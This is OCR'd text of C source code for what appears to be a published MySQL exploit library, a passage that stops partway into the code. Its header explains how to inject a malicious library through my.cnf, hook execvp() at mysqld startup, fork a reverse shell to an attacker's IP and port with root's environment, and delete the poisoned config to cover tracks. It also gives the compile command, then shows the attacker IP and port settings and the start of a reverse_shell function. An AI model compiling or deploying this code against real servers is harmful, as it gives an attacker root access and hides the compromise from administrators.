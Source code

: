 ~~~~~~~~~~~~~~~~~~~~~~~~~
malloc_lib=mysql_hookandroot_lib.so

in one of the my.cnf config files (e.g. /etc/my.cnf).

This shared library will hook the execvp() function which is called
during the startup of mysqld process. 
It will then fork a reverse shell and clean up the poisoned my.cnf
file in order to let mysqld run as normal so that:
'service mysql restart' will work without a problem.

Before compiling adjust IP / PORT and config path.


~~
Discovered/Coded by:

Dawid Golunski



~~
Compilation (remember to choose settings compatible with the remote OS/arch):

gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.so mysql_hookandroot_lib.c -ldl

Disclaimer:

For testing purposes only. Do no harm.

Full advisory URL:


*/

#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <string.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <stdarg.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#define ATTACKERS_IP "127.0.0.1"
#define SHELL_PORT 6033
#define INJECTED_CONF "/var/lib/mysql/my.cnf"

char* env_list[] = { "HOME=/root", NULL };
typedef ssize_t (*execvp_func_t)(const char *__file, char *const __argv[]);
static execvp_func_t old_execvp = NULL;


// fork & send a bash shell to the attacker before starting mysqld
void reverse_shell(void) {

    int i; int sockfd;
    //socklen_t socklen;
    struct sockaddr_in srv_addr;
~~~~~~~~~~~~~~~~~~~~~~~~~